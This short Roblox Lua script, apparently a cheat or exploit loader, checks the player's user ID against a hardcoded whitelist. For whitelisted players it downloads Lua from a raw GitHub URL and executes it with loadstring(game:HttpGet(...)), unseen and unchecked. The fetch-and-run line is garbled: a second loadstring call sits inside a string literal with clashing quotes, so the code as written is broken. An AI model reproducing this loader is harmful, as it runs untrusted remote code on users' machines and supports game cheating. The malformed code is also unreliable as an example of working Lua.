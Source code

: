 local WhitelistedUserIds = {
    ["243805732"] = true, --
    ["2233820804"] = true,
    ["5367063377"] = true,
    ["2502514909"] = true,
    ["4442411184"] = true
}

local Player = game.Players.LocalPlayer

local function isWhitelisted(player)
    local userId = tostring(player.UserId)
    return WhitelistedUserIds[userId] == true
end

if isWhitelisted(Player) then
loadstring(game:HttpGet("loadstring(game:HttpGet("https://raw.githubusercontent.com/therealzeek/Nara.cc/main/script1.lua", true))()", true))()
else
    print("You are not whitelisted")
end
